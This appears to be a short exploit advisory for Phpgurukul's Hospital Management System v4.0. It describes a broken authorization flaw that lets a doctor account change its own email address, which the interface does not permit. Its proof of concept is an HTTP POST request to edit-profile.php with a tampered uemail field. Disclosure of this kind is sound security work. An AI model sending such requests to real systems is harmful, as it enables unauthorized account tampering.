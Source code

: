 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update his email that cannot modify in UI.

## ---------------------------------POC-----------------------------
```
POST /hospital/hms/edit-profile.php HTTP/1.1
...

fname=user1&address=aaaaaa&city=abbb&gender=male&uemail=user2%40test.com(CHANGE HERE)&submit=
```
